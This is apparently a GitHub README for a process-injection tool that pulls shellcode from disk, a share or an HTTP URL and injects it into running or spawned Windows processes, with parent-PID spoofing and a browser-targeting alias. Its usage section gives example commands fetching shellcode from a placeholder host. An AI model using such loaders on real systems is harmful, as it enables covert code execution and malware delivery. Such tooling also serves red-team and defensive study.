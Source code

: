# ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

Additional Techniques yoinked from 3xpl01tc0d3r: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Usage

```
Runner Help:
    Usage: Runner.exe [options]
    Example: Runner.exe targ=http://fun/targ.bin form=bin meth=simple pid=1000
    Example: Runner.exe targ=C:\path\to\targ.b64 form=b64 meth=simple pid=self
    Example: Runner.exe targ=\\some\share\path\to\targ.b64 form=b64 meth=simple pid=explorer
    Example: Runner.exe targ=https://fun/targ.bin form=b64 meth=simple parent=1000 spawn=C:\path\to\custom.exe
    Example: Runner.exe targ=https://fun/targ.bin form=b64 meth=simple parent=explorer spawn=notepad.exe
Defaults:
    meth => simple
    form => bin
```

## Target and Format

The `targ` argument can point to a URL or path on disk. URLs must start with http:// or https://. This file should contain your shellcode. .Net shellcode can be generated via Donut by TheWover.

The `form` argument tells the runner whether the shellcode is in "binary" format (default) or "base64. Valid values are "bin", "binary", "base64", and "b64". If encoded, the runner will decode it.

## Injection Techniques

The `meth` argument tells the runner what technique to use for injection. Right now, only "simple" injection is supported (default) via CreateRemoteThread.

## Parent Spoofing vs PID

You can either target a live process (PID / live mode) to inject into or you can use parent spoofing. PID mode requires the use of the `pid` arugment while parent spoofing requires both `parent` and `spawn`.

### PID / Live Mode

The `pid` value accepts a valid PID, a program to search for (explorer.exe/notepad.exe), or "self". When searching, the pid is resolved from the current session so the process needs to be in the same session. For self, the runner will just inject into itself and wait forever. There is an additional alias called `browser` that attempts to first inject into the user's default browser and then blindly checks for running chrome and IE instances.

### Parent Mode

The `parent` argument can be either a valid running PID or a program name (explorer/program.exe). When searching for the program name, a running PID for that program must exist in the same session.

The `spawn` argument tells the runner which program to spawn and inject into. It can either be a fully qualified path to an EXE or a basename like "explorer.exe". The runner will search the \$PATH environment variable for the executable. The spawn argument also has a browser alias that looks for common brower executables.

## Known Issues

- cmd.exe may not work with spawn.

### References

- .Net ShellCode https://github.com/TheWover/donut
- Parent Spoofing: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Todos:

- Process hollowing
- APC Queue
- Clean up Win32
- Simple targets and keys
- Parseable targets via regex
